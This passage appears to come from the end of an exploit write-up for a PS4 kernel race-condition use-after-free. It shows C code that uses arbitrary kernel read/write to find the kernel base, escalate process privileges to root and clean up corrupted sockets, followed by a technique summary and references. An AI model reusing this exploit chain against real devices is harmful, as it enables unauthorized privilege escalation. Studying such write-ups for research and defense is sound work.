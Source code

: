 We can just set the crucial pointers of the exploited `sock`'s to 0 so that the kernel does not by mistake use some wrong value and crash. For the other sock's that we sprayed, we can just `free()` them.
```c
static void cleanup(void) {
  uint64_t master_pktopts, overlap_pktopts, victim_pktopts;
  master_pktopts  = find_socket_pktopts(master_sock);
  overlap_pktopts = find_socket_pktopts(overlap_sock);
  victim_pktopts  = find_socket_pktopts(victim_sock);
  kwrite64(master_pktopts  + PKTOPTS_PKTINFO_OFFSET, 0);
  kwrite64(overlap_pktopts + PKTOPTS_RTHDR_OFFSET, 0);
  kwrite64(victim_pktopts  + PKTOPTS_PKTINFO_OFFSET, 0);
}
```

### Aand..... root!

And thats it! We can now gain r00t access in a PS4 system (well, an _unpatched_ PS4 system):
```c
victim_sock = spray_sock[idx];
  printf("[+] Victim socket: %x (%x)\n", victim_sock, idx);
  printf("[+] Arbitrary R/W achieved.\n");
  knote    = kread64(kevent_addr + kevent_sock * sizeof(uintptr_t));
  kn_fop   = kread64(knote + KNOTE_FOP_OFFSET);
  f_detach = kread64(kn_fop + FILTEROPS_DETACH_OFFSET);
  printf("[+] knote: 0x%lx\n", knote);
  printf("[+] kn_fop: 0x%lx\n", kn_fop);
  printf("[+] f_detach: 0x%lx\n", f_detach);
  printf("[+] Finding kernel base...\n");
  kernel_base = find_kernel_base(f_detach);
  printf("[+] Kernel base: 0x%lx\n", kernel_base);
  printf("[+] Finding process cred and fd...\n");
  find_proc_cred_and_fd(getpid());
  printf("[*] Escalating privileges...\n");
  escalate_privileges();
  printf("[*] Cleaning up...\n");
  cleanup();
  printf("[+] Done.\n");
  return 0;
```
## Interesting Techniques used
- A race condition in the kernel leading to a Use-After-Free bug.
- Building stronger primitives out of weaker ones.
- Spraying the heap with victim objects to speed up hitting the race condition.

## References
- [https://www.exploit-db.com/exploits/48644](https://www.exploit-db.com/exploits/48644)
- [https://hackerone.com/reports/826026](https://hackerone.com/reports/826026)

